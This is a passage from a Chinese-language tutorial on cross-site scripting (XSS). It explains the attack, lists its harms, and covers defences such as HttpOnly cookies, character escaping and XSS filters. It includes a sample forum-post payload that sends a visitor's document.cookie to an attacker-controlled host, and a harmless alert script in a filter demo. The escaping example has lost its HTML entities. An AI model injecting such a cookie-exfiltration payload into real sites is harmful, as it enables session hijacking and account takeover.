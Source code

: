 [TOC]

# 一、跨站脚本攻击

## 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

## 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

## 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

## 防范手段

### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

### 2. 过滤特殊字符

例如将 `<` 转义为 `<`，将 `>` 转义为 `>`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
```